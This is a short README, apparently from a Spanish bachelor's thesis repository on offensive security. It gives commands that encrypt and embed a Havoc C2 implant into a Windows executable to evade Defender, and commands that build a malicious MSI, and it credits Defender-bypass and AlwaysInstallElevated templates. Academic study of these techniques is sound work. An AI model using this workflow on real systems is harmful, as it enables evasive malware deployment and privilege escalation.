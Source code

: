 # Recursos del trabajo de fin de grado
Recursos utilizados para la realización del TFG de Marcos González Ruiz
## Comandos para compilar el malware de Havoc
```
python3 aes.py demon.bin
x86_64-w64-mingw32-windres recursos.rc -o recursos.o
x86_64-w64-mingw32-g++ -o atx.exe havoc.cpp recursos.o --static
```
## Comandos para compilar el archivo MSI malicioso
```
wix convert plantilla.wxs
wix build -o setup.msi setup.wxs
```
## Créditos
[Gemini Security](https://github.com/gemini-security/How-to-bypass-Windows-Defender-with-Embedded-Resources-.rsrc-)

[Sabri](https://github.com/KINGSABRI/MSI-AlwaysInstallElevated/blob/master/WXS-Templates/alwaysInstallElevated-2.wxs)
